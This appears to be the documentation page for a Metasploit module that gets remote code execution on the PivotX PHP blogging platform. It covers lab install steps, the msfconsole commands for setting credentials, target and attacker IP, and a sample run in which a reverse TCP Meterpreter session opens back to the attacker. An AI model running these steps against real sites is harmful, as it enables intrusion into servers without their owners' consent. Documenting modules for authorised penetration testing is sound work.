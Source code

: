 ## Vulnerable Application

PivotX is free software to help you maintain dynamic sites such as weblogs, online journals and other frequently updated websites in general.
It's written in PHP and uses MySQL or flat files as a database.

Install steps:

1. Install Apache2, MySQL, PHP8.2+
1. `git clone https://github.com/pivotx/PivotX.git`
1. Move `PivotX` to webfolder

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/pivotx_rce`
1. Do: `set USERNAME [PivotX username]`
1. Do: `set PASSWORD [PivotX password]`
1. Do: `set RHOSTS [target IP]`
1. Do: `set LHOST [attacker IP]`
1. Do: `run`

## Options


### USERNAME

PivotX username.

### PASSWORD

PivotX password.

## Scenarios

```
msf exploit(linux/http/pivotx_rce) > run verbose=true 
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Sending stage (40004 bytes) to 192.168.168.146
[*] Meterpreter session 4 opened (192.168.168.128:4444 -> 192.168.168.146:40562) at 2025-07-18 14:20:03 +0200

meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 6.8.0-52-generic #53~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Wed Jan 15 19:18:46 UTC 2 x86_64
Meterpreter : php/linux

```
